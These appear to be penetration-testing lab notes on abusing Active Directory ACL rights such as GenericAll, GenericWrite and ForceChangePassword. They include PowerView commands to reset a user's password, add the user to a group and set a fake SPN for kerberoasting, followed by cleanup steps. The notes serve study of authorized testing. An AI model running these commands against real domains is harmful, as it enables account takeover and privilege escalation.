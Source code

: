 1. lists that define a) who has access to which asset/resource and 
2. b) the level of access they are provisioned.
### Two types of ACLs:
1. Discretionary Access Control List (DACL): Who gets access to what
2. System access control list (SACL): ==what== gets logged

## Examples of Abuses: 
- `ForceChangePassword` abused with `Set-DomainUserPassword`
	- ==Change a users password without knowing their password!==
- `Add Members` abused with `Add-DomainGroupMember`
- `GenericAll` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
	- ==This one is big, allowing modification of group membership, change of passwords, or kerberoasting==
- `GenericWrite` abused with `Set-DomainObject`
- `WriteOwner` abused with `Set-DomainObjectOwner`
- `WriteDACL` abused with `Add-DomainObjectACL`
- `AllExtendedRights` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `Addself` abused with `Add-DomainGroupMember`


## What ACL attacks can be used for:
1. Lateral Movement
2. Privilege escalation
3. Persistence

## ACL Abuse Tactics:

How an attack can work: 
1. Use the `wley` user to change the password for the `damundsen` user
2. Authenticate as the `damundsen` user and leverage `GenericWrite` rights to add a user that we control to the `Help Desk Level 1` group
3. Take advantage of nested group membership in the `Information Technology` group and leverage `GenericAll` rights to take control of the `adunn` user

```powershell

$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 

$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
# Save the damundsen password for later use (below)

Import-Module .\PowerView.ps1 
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword   -Credential $Cred -Verbose

Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen'         -Credential $Cred2 -Verbose
# Add damundsen to the 'Help Desk Level 1' group

```

If you need to, you can make a fake SPN so that you can kerberoast a user (perhaps the user is in use at the time and you do not want to interrupt it)

## Cleanup
In terms of cleanup, there are a few things we need to do:

1. Remove the fake SPN we created on the `adunn` user.
```powershell-session
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```
1. Remove the `damundsen` user from the `Help Desk Level 1` group
```powershell-session
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```
1. Set the password for the `damundsen` user back to its original value (if we know it) or have our client set it/alert the user